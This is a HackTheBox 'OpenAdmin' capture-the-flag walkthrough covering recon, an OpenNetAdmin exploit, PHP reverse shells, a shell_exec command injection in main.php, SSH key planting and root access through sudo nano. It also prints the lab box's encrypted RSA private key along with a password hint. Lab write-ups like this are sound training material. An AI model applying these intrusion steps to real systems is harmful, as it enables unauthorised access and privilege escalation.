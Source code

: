```yaml
---
layout: default
title: OpenAdmin
parent: HackTheBox
nav_order: 4
---
```

# Navigation Structure
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

![](pictures/logo-oa.png)

- Summary
- Recon
- Intrusion
- Lateral Movement
- Privilege Escalation
{:toc}

## [](#header-2)Summary:

1. Use login function in hidden directory to enumerate vulnerable OpenNetAdmin version 
2. Exploit OpenNetAdmin to gain low privilege shell
3. SSH back in with newly found credentials 
4. Edit Ibpage to execute shell with escalated privileges
5. Break into root shell with nano binary 

## [](#header-2)Recon:


Doing our regular nmap scan for safe scripts and running services-versions I see that there is a ssh port 22 as and an apache server running on port 80.

![](pictures/nmap-oa.png)


From gobuster, I can see a few directories that look interesting.

![](pictures/gobuster-oa.png)


Once I go to to the website on port 80, I see the default apache config doc.


![](pictures/apache-oa.png)

After navigating through the newly found directories some more, I find that /music has a login/create account functions which always peek my interest.



![](pictures/music-oa.png)



After clicking on the login function, I am immediately directed into a OpenNetAdmin portal.

![](pictures/login-oa.png)

When I try logging with admin/admin credentials I am able to successfully log in.

![](pictures/login1-oa.png)

This does not give us any different information unfortunately.

After researching the OpenNetAdmin version with searchsploit I see that the version is vulnerable.

![](pictures/sp-oa.png)

TIP: use searchsploit -m flag to put the exploit in same dir.

Once I edit the exploit code a bit and run I am able to get a shell within the OpenNetAdmin directory.

![](pictures/open-oa.png)

## [](#header-2)Intrusion:


 
Get pop a shell but it is restricting.

From here I wanted to get a more interactive shell so after confirming python was on the system with.

```bash
locate python

```

I tried spawning a shell with 
```bash
python3 -c "import pty; pty.spawn('/bin/bash')"

```

 and I also tried many other shell methods (perl,sh,ruby,etc..) but none worked, so I just searched through the dirs with ls and cat commands to see if I could find anything useful.

Once I go through a couple of files I am able to find one with database credentials.



![](pictures/dbset-oa.png)



In order to access the mysql database with these creds, I had to get a better shell.

I started by downloading a php reverse shell from a python server I set up on my host computer to the ona web folder and executing it.

![](pictures/shell-oa.png)


setting up nc to listen for the connection
![](pictures/nc-oa.png)

Command to execute shell
```bash
php php-reverse-shell.php
```
![](pictures/shell1-oa.png)

Once I'm in with the new shell, I had to use spawn a python shell because the mysql command was still not working...

![](pictures/py-oa.png)

After that I was able to get into the mysql database and have a look around.

The only thing I get is encrypted creds for the guest and admin which come out to be:

guest pass test
admin pass admin 

But these end up being a dead end.


After trying a couple of things I ended getting ssh access with one of the user accounts "jimmy" who used the same password as the database user "ona_sys".


![](pictures/jm-oa.png)


Looking at possible way to escalate privileges or find a flag I see that their is a high port open, which is worth a little investigation.

Going to the IP on that port does not get me anything but I am able to find another web directory /var/www/internal.

One of the files "main.php" caught my eye since it used shell_exec to spit out the contents of Joanna's ssh key.

Once I curled main.php I was able to receive the encrypted ssh key
```bash
jimmy@openadmin:/var/www/internal$ curl localhost:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

By playing around with main.php some more I was able to get the page to reveal out the user flag with the commands below.

![](pictures/play-oa.png)



Unfortunately, I could not access the root folder via this method.
## [](#header-2)Lateral Movement:

From here I knew that the webpage could execute commands with Joanna's permissions so I decided to download another reverse php shell to the web directory and execute it within main.php.

Once I edit the main.php file to include the command.

```php
shell_exec(php php-reverse-shell.php)

```

Al I have to do is curl the main.php page and set up a netcat listener for the reverse php shell and......


![](pictures/nc1-oa.png)


From here I am able to find the user flag, but still not able to access the root folder.
In order to even get a suitable shell, I had to make a new set of ssh keys and put them in the ~/.ssh/authorized_folder so that I could ssh back in without a passphrase/password for joanna.
![](pictures/ssh-oa.png)
## [](#header-2)Privilege Escalation:


Using sudo -l I find that the the command /bin/nano /opt/priv can be used with sudo privileges and without providing a password.

Looking at GTFObins seeing 

![](pictures/nano-oa.png)


Using the commands provided by GTFObins I am able to get a root shell.
![](pictures/root-oa.png)

![](pictures/root1-oa.png)

That's it!

